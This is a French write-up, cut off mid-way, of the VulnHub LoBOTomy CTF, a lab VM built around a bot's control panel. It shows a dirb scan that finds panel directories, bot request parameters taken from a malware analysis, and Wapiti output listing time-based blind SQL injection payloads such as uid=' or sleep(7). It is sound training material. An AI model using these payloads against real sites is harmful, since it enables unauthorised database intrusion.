 # A propos du CTF LoBOTomy

Présentation
------------

[Le challenge LoBOTomy](http://vulnhub.com/entry/bot-challenges-lobotomy,89/) est le dernier en date créé par *Brian Wallace* AKA *@botnet\_hunter*.  

Comme pour les autres CTF téléchargeable sur *VulnHub* il s'agit d'une machine virtuelle.  

N'étant pas parvenu à la fin de ce challenge je donne ici les informations que j'ai trouvé mais pas de solution personnelle.  

En bas de page je donne toutefois rapidement l'étape manquante que certains ont trouvé pour finir ce CTF.  

Pour plus d'infos il faudra se référer aux autres writeups listés sur *VulnHub*.  

Trouver une faille
------------------

On trouve les mêmes ports ouverts que d'habitude (HTTP, SSH, rpcinfo).  

Sur le serveur web on trouve des liens pointant vers des analyses du bot dont on devra pénétrer le command and control :  

<http://blog.cylance.com/a-study-in-bots-madness-pro>  

<https://malwr.com/analysis/ZTQyOWYyZTQxYmNlNDkwNWE3ZWZhY2QxNmM2NTJhMTk/>  

Ce qui nous intéresse principalement ici c'est la requête HTTP effectuée par le bot car elle contient le nom des variables passées à un script.  

Aditionnellement, une indication sur la page précise qu'un navigateur headless (ici basé sur *SlimmerJS*) simule la connexion d'une personne sur le panel de contrôle du bot.  

La première chose à faire est d'essayer de trouver où a été placé ce fameux panel. Un scan avec *dirb* permet de trouver rapidement un dossier *m* :  

```plain
./dirb http://192.168.1.57/ wordlists/big.txt
http://192.168.1.57/m/
http://192.168.1.57/m/adm/
http://192.168.1.57/m/inc/
http://192.168.1.57/m/pwd/
```

Et si on passe en paramètre les valeurs présentes dans l'analyse de malwr.com (*/m/?uid=88039670&ver=1.14&mk=bb3b62&os=WinXP&rs=adm&c=1&rq=0*) on obtient le texte *"d3Rm"*.  

Aussitôt on lance *Wapiti* qui trouve des failles d'injection MySQL pour presque tous les paramètres :  

```plain
[+] Lancement du module blindsql
Faille d'injection SQL en aveugle dans http://192.168.1.57/m/ via une injection dans le paramètre uid
  Evil url: http://192.168.1.57/m/?uid=%27%20or%20sleep%287%29%231&ver=1.14&mk=bb3b62&os=WinXP&rs=adm&c=1&rq=0
Faille d'injection SQL en aveugle dans http://192.168.1.57/m/ via une injection dans le paramètre ver
  Evil url: http://192.168.1.57/m/?uid=88039670&ver=sleep%287%29%231&mk=bb3b62&os=WinXP&rs=adm&c=1&rq=0
Faille d'injection SQL en aveugle dans http://192.168.1.57/m/ via une injection dans le paramètre mk
  Evil url: http://192.168.1.57/m/?uid=88039670&ver=1.14&mk=sleep%287%29%231&os=WinXP&rs=adm&c=1&rq=0
Faille d'injection SQL en aveugle dans http://192.168.1.57/m/ via une injection dans le paramètre os
```